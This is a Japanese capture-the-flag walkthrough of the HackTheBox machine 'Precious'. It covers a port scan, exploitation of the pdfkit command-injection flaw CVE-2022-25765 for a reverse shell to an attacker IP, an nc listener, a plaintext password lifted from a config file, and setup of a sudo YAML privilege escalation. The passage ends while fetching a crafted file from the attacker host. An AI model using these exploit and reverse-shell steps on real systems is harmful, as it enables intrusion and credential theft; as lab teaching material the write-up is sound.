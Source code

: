 ## STEP 1
```sh
└─$ rustscan -a 10.129.228.98 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I don't always scan ports, but when I do, I prefer RustScan.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.228.98:22
Open 10.129.228.98:80
10.129.228.98 -> [22,80]
```


## STEP 2
80番にアクセス、「precious.htb」にリダイレクトされたので名前解決できない  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_01.png" width="50%" height="50%">  
hostsを編集
```sh
└─$ echo '10.129.228.98 precious.htb' | sudo tee -a /etc/hosts
```
アクセスできた、urlを入力できるっぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_02.png" width="50%" height="50%">  
試しに「hxxp://127.0.0.1」を入力したらエラーが出た  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_03.png" width="50%" height="50%">  
今度はkaliでpythonでwebサーバをたてて確認させる
```sh
└─$ python3.13 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
pdfが自動でダウンロードされた、実際にkaliでたてたwebサーバのキャプチャになっている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_04.png" width="75%" height="75%">  
ダウンロードされたpdfの情報を確認すると、pdfkitで作成されているっぽい
```sh
└─$ exiftool Downloads/muzjrzs750ms8sopaxtjok1iojlb19li.pdf 
ExifTool Version Number         : 13.25
File Name                       : muzjrzs750ms8sopaxtjok1iojlb19li.pdf
Directory                       : Downloads
File Size                       : 38 kB
File Modification Date/Time     : 2025:07:02 08:40:05-04:00
File Access Date/Time           : 2025:07:02 08:40:05-04:00
File Inode Change Date/Time     : 2025:07:02 08:40:05-04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v8.0.6 には、CVE-2022-25765のrceの脆弱性があるらしい  
[PoC](https://github.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765)でエクスプロイト
```sh
└─$ wget https://raw.githubusercontent.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765/refs/heads/main/CVE-2022-25765.py
--2025-07-02 08:53:48--  https://raw.githubusercontent.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765/refs/heads/main/CVE-2022-25765.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1582 (1.5K) [text/plain]
Saving to: ‘CVE-2022-25765.py’

CVE-2022-25765.py                                          100%[========================================================================================================================================>]   1.54K  --.-KB/s    in 0s      

2025-07-02 08:53:49 (38.4 MB/s) - ‘CVE-2022-25765.py’ saved [1582/1582]


└─$ python3.13 CVE-2022-25765.py -t http://precious.htb -a 10.10.16.4 -p 4444
[*] Input target address is http://precious.htb
[*] Input address for reverse connect is 10.10.16.4
[*] Input port is 4444
[!] Run the shell... Press Ctrl+C after successful connection
^CTraceback (most recent call last):
```
リバースシェル取得！がユーザフラグすら権限拒否
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.228.98] 44794
bash: cannot set terminal process group (677): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)


ruby@precious:/var/www/pdfapp$ cat /home/henry/user.txt
cat /home/henry/user.txt
cat: /home/henry/user.txt: Permission denied
```


## STEP 3
謎のconfigファイルにhenryのパスワードらしいものを発見  
henryにログイン成功！ユーザフラグゲット！
```sh
ruby@precious:/var/www/pdfapp$ cat /home/ruby/.bundle/config
cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"


ruby@precious:/var/www/pdfapp$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH


id
uid=1000(henry) gid=1000(henry) groups=1000(henry)


SHELL=/bin/bash script -q /dev/null
henry@precious:~$


henry@precious:~$ cat /home/henry/user.txt
cat /home/henry/user.txt
e3948152e2e4cd28f2c967ffcc412a53
```


## STEP 4
```sh
henry@precious:~$ sudo -l
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

```sh
henry@precious:~$ cd /home/henry
cd /home/henry


henry@precious:~$ wget http://10.10.16.4/dependencies.yml
wget http://10.10.16.4/dependencies.yml
--2025-07-02 10:08:12--  http://10.10.16.4/dependencies.yml
Connecting to 10.10.16.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 667 [application/yaml]
Saving to: ‘dependencies.yml’

     0K                                                       100%  119M=0s

2025-07-02 10:08:14 (119 MB/s) - ‘dependencies.yml’ saved [667/667]
```
